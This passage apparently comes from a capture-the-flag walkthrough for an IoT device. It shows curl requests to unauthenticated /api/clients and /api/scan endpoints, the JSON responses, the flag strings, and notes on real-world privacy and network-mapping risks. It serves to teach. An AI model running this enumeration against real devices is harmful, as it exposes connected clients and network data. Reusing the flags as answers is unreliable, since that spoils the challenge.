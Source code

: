 #### Real-Life Scenario

- **Unsecured IoT Endpoints**: Devices exposing control endpoints without authentication can be manipulated by attackers.
- **Data Leakage**: Sensitive information (like flags or secrets) returned in responses.

---

### 2. Connected Clients Information (`FLAG_2`)

**Endpoint**: `/api/clients`

#### Discovery

1. **API Exploration**: After finding `/api/led/on`, check for other `/api/` endpoints.
2. **Access Endpoint**: Navigate to `/api/clients`.

#### Solution

- **Access the Endpoint**:
  ```sh
  curl http://192.168.4.1/api/clients
  ```
- **Response**:
  ```json
  {
    "client_count": 1,
    "clients": [
      {"mac": "AA:BB:CC:DD:EE:FF"}
    ],
    "flag": "CTF{May_the_flag_be_with_you}"
  }
  ```
- **Flag**: `CTF{May_the_flag_be_with_you}`

#### Real-Life Scenario

- **Privacy Concerns**: Devices revealing connected client information can lead to privacy breaches.
- **Network Mapping**: Attackers can map out connected devices for further exploitation.

---

### 3. Wi-Fi Network Scan (`FLAG_3`)

**Endpoint**: `/api/scan`

#### Discovery

1. **Continued API Enumeration**: Testing standard endpoints like `/api/scan`.
2. **Access Endpoint**: Navigate to `/api/scan`.

#### Solution

- **Access the Endpoint**:
  ```sh
  curl http://192.168.4.1/api/scan
  ```
- **Response**:
  ```json
  {
    "network_count": 5,
    "networks": [
      {"ssid": "Network1", "rssi": -40},
      // ...
    ],
    "flag": "CTF{Th3_Fl4g_1s_H3r3}"
  }
  ```